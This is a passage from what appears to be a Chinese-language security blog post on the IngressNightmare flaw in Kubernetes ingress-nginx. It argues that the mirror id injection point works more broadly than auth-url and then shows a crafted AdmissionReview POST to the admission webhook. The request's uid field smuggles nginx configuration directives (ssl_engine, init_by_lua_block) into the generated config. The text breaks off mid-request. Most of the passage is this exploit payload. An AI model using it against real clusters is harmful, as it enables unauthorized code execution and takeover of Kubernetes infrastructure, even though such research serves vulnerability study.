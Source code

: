 经过'$$$$$'大佬提醒，mirror id这个注入点更为通用，在我测试的版本都能成功。  
  
k8s集群又被拿下了？IngressNightmare - 云安全：[https://mp.weixin.qq.com/s/O19dvxyxWb2jwcKtHSUhPA](https://mp.weixin.qq.com/s?__biz=MzU1NzkwMzUzNg==&mid=2247484462&idx=1&sn=002c1dbfb0b80b864ced504d495ee5b3&scene=21#wechat_redirect)  
 文章中测试的auth-url参数并非更通用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGT7wwCMG6CZyJH5vhzjHS3x7rhb1MkTeAMHTprNibpicBicacE0ZLT577rDibUtia4XNgB7ZR5n3ticYWGg/640?wx_fmt=png&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/36ssDibLXxGT7wwCMG6CZyJH5vhzjHS3xPtl6TlcVV7KzIFaphqeBJHYicnHq2cgRrqZTg3bMnIBDrg2aaLuq8JA/640?wx_fmt=png&from=appmsg "null")  
  
  
确定注入的位置  
```
POST /mutate HTTP/1.1
Content-Type: application/json
Host: 10.234.170.56:8888

{
   "kind": "AdmissionReview",
   "apiVersion": "admission.k8s.io/v1",
   "request": {
      "uid": "test2",
      "kind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "resource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "requestKind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "requestResource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "name": "minimal-ingress",
      "namespace": "default",
      "operation": "CREATE",
      "userInfo": {
         "uid": "1619bf32-d4cb-4a99-a4a4-d33b2efa3bc6"
      },
      "object": {
         "kind": "Ingress",
         "apiVersion": "networking.k8s.io/v1",
         "metadata": {
            "name": "minimal-ingress",
            "namespace": "default",
            "creationTimestamp": null,
            "uid": "test2; \n} \n\n ssl_engine testxxx; \n init_by_lua_block {#",
            "annotations": {
                "nginx.ingress.kubernetes.io/mirror-target": "https://www.baidu.com/"
            }
         },
         "spec": {
            "ingressClassName": "nginx",
            "rules": [
```